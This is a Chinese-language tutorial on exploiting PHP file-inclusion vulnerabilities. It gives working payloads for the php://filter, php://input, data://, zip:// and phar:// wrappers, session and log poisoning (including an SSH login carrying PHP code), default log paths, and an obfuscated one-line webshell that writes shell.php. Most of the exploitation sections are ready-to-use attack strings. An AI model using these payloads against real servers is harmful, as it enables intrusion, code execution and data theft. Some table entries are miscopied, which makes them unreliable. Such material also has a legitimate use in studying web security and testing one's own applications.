# php文件包含漏洞利用小结


`文件包含漏洞`是指客户端（一般为浏览器）用户通过输入控制动态包含在服务器的文件，从而导致恶意代码的执行及敏感信息的泄露，主要包括`本地文件包含LFI`和`远程文件包含RFI`两种形式。

例如：



## 目录

- PHP伪协议利用
- 日志文件包含
- 远程文件包含


**漏洞危害**

1. 读取敏感文件
2. 获取webshell
3. 任意命令执行
4. 在某些情况下，根据LFI漏洞的性质，可以运行系统可执行文件


**产生原因**

在通过 PHP 的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入

**如何利用**

1. 用户能够控制这个动态变量
2. include()等函数通过动态变量的方式引入需要包含的文件


**存在漏洞的函数**：

- **include()**
只有代码执行到此函数时才将文件包含进来，发生错误时只警告并继续执行。
- **require()**
只要程序执行，立即调用此函数包含文件，发生错误时，会输出错误信息并立即终止程序。
- **include_once()**
功能include()一样，区别在于当重复调用同一文件时，程序只调用一次。
- **require_once()**
功能require()一样，区别在于当重复调用同一文件时，程序只调用一次。

文件包含功能要实现，`需要在PHP的配置文件php.ini中开启allow_url_include；如果是远程文件包含，则除此之外还需要开启allow_url_fopen。`


存在文件包含漏洞的php源码：

```php
<?php
$a = @$_GET['file'];
include $a;
?>
```


`php伪协议`文件包含：

```
File://  访问本地文件系统
http://  访问HTTPs网址
ftp://  访问ftp URL
Php://  访问输入输出流
Zlib://  压缩流
Data://  数据
Ssh2://  security shell2
Expect://  处理交互式的流
Glob://  查找匹配的文件路径
```

|协议|测试PHP版本|allow_url_fopen|allow_url_include|语法|
|-   |-          |-             |                 -| -|
|file:// | >=5.2| off/on| off/on| ?file=file://C:/phpStudy/PHPTutorial/WWW/flag.txt|
|php://filter| >=5.2|off/on| off/on| ?file=php://filter/read=convert.base64-decode/resource=./index.php
|php://input| >=5.2|off/on| `on`| `?file=php://input [POST DATE] <?php phpinfo();?>`
|zip://| >=5.2|off/on| off/on| `?file=zip://C:/phpStudy/PHPTutorial/WWW/file.zip%23phpcode.txt`
|compress.bzip2://| >=5.2|off/on| off/on| `?file=compress.bzip2://file.bz2` 或 `?file=compress.bzip2://C:/phpStudy/PHPTutorial/WWW/flle.bz2`
|compress.zlib://| >=5.2|off/on| off/on| `?file=compress.zlib://file.bz2` 或 `?file=compress.zlib://C:/phpStudy/PHPTutorial/WWW/flle.bz2`
|data://| >=5.2|`on`| `on`| `?file=compress.zlib://file.bz2` 或 `?file=compress.zlib://C:/phpStudy/PHPTutorial/WWW/flle.bz2`


php.ini配置文件：

> `allow_url_fopen=off` 即不可以包含远程文件。php4存在远程包含&本地包含，php5仅存在本地包含

## 利用方法

### PHP伪协议

#### file

> 利用`file`协议执行任意文件读取：

代码实例：
```
?file=file://C:/windows/win.ini
```



#### php://filter

> 利用`php://filter`查看源代码：

`php://filter`是一种元封装器，设计用于数据流打开时的筛选过滤应用；在文件包含中用于读取文件内容，读取后输出`base64编码`后的内容，要获取真实内容的话，`需要进行base64解码`

代码实例：

```
?file=php://filter/read=convert.base64-encode/resource=index.php
?file=php://filter/convert.base64-encode/resource=../sss.php
```



解码后发现，1.php页面被包含。此时

#### session文件包含

利用条件：
```
1. session的存储位置可以获取
2. session中的内容可以被控制，传入恶意代码
```

利用思路：
```
1. 通过参数name写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell
```

1. 通过phpinfo的信息可以获取到session的存储位置



此时我们利用这个页面，将用户的get数据存储到session中

```php
<?php
session_start();
$name=$_GET['name'];
$_SESSION["name"]=$name;
?>
```





可见此时已经将 `PHPinfo` 写入到 session文件中，此时我们利用文件包含漏洞去包含这个文件

```
?file=../../../../var/lib/php/sessions/sess_sdmofnu8knlh9jlqe89l8smduu
```



#### php://input

> 利用php伪协议：php://input

利用条件：

```
1. PHP.ini 中 allow_url_include= On
2. php <5.0 ，allow_url_include=Off 也可以
```

`php://input`是个可以访问请求的原始数据的只读流。使用时，将要输入的数据以post方式提交

**命令执行**



```
<?php system('whoami');?>
```

**生成一句话木马**



```
<?php fputs(fopen('shell.php','w'),'<?=`{${~"\xa0\xb8\xba\xab"}[1]}`;');?>
```


**读取目录结构**

```
<?php print_r(scandir("C:\phpStudy\PHPTutorial\WWW"))?> #改成想查看的路径即可
```




#### data

利用php伪协议：`data`

利用条件：

```
php > 5.2
allow_url_fopen=On && allow_url_include=On
```

利用代码：

```
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system('whoami');?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


#### phar://

phar:// 数据流包装器自PHP 5.3.0起开始。这个参数是就是`php解压缩包`的一个函数，不管目标文件后缀是什么，都将其当做压缩包来解压

利用条件：

```
PHP>= 5.3.0
```

用法格式：

```
?file=phar://压缩包/内部文件
```

> 注意：绝对路径或相对路径均可；压缩包只能使用`zip协议`压缩



#### zip://

zip伪协议和phar协议类似,但是用法不一样。

利用条件：

```
5.2.17 =<php <= 7.0.12
```

语法：

```
?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]zip://xxx.png#shell.php或zip://xxx.zip#shell.php
```



---


### 日志文件包含


**日志存储默认路径**

`apache+Linux`日志默认路径：`/etc/httpd/logs/access.log`、`/var/log/httpd/access.log`、`var/log/apache2/access.log`、`var/log/apache2/error.log`
`apache+win2003`日志默认路径：`D:\xampp\apache\logs\access.log`、`D:\xampp\apache\logs\error.log`
`IIS6.0+win2003`默认日志文件：`C:\WINDOWS\system32\Logfiles`
`IIS7.0+win2003` 默认日志文件：`%SystemDrive%\inetpub\logs\LogFiles`
`nginx` 日志文件：日志文件在用户安装目录logs目录下,假设安装路径为`/usr/local/nginx`或者`var/log/nginx/`,那日志目录就是在`/usr/local/nginx/logs`或者`var/log/nginx/access.log`下面

或者可以通过读取相应的配置文件获取log文件路径：

`apache+linux` 默认配置文件：`/etc/httpd/conf/httpd.conf`或`/etc/init.d/httpd`
`IIS6.0+win2003 `配置文件：`C:/Windows/system32/inetsrv/metabase.xml`
`IIS7.0+WIN `配置文件：`C:\Windows\System32\inetsrv\config\applicationHost.config`


#### apache/nginx 报错日志

**访问日志**

利用条件：

```
需要知道服务器日志的存储路径，且日志文件可读
```

利用原理：

```
web服务器会将请求写入到日志文件中，比如说apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log
```

正常的php代码已经写入了 `error.log`，包含即可执行代码




利用文件包含漏洞去包含log文件：



#### SSH 登录日志

利用条件：

```
需要知道ssh-log的位置，且可读
```


ssh日志默认路径：

```
/var/log/auth.log（默认情况下，所有用户都可读）
/var/log/secure
```

使用ssh客户端：
```
ssh '<?php phpinfo();?>'@IP
```




### 远程文件包含

在PHP 5.2后，`php.ini`默认配置下：

```
allow_url_fopen=on
allow_url_include=off
```

此时除非网站管理员开启配置 否则无法远程文件包含。在某些CTF题中可能遇到。了解即可


**参考如下**

- [php代码审计之文件包含利用总结](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F-o7ML_8geIGGvrQBh9wf8g)
- [文件包含漏洞相关知识总结](https://links.jianshu.com/go?to=https%3A%2F%2Fblog.csdn.net%2Fqq_27710251%2Farticle%2Fdetails%2F108039876)
- [文件包含总结](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FCjvwADgUCuWYcd34SzHQMQ)
- [web安全-文件包含漏洞](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F8oFukNRcN7noS6XK_bfKCg)
- [代码安全之文件包含](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2Fv1ovyOf9uPuUVgIkLJ7fBQ)
- [PHP文件包含小总结](https://links.jianshu.com/go?to=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2FIT6bbaG7zBbnrvcNPYr1_w)
- [php文件包含漏洞利用小结](https://www.jianshu.com/p/e3b6862b80ea)
